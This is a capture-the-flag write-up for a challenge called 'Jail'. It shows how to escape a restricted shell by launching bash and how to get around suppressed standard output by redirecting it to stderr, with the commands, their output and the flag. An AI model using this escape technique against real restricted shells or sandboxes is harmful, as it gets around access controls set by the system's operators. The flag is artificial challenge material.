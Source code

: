 # Jail
**Category**: Misc
**Author**: Hexterisk
**Points**: 290
**Challenge**: 
`ssh u1@xx.xxx.xxx.xxx -p 2220 pass u1`

**Solution:** 
When connecting, we are inside a shell script that executes our commands. We can get out with **bash**.

From there we can't see the standard output stream but we can see the standard error stream so we can simply redirect with **1>&2** and find the flag.

    bash-4.3$ /bin/ls 1>&2
    Desktop  Documents  Music  Pictures  Videos  bin  flag.txt  programs
    bash-4.3$ /bin/ls /bin 1>&2
    bash  ec.sh  echo  ls  sh
    bash-4.3$ /bin/ls /usr/bin 1>&2
    awk  chattr  chsh  ssh	vim  wc
    bash-4.3$ /usr/bin/vim flag.txt 1>&2

> Pass: evlz{0ut_0f_ech0}ctf

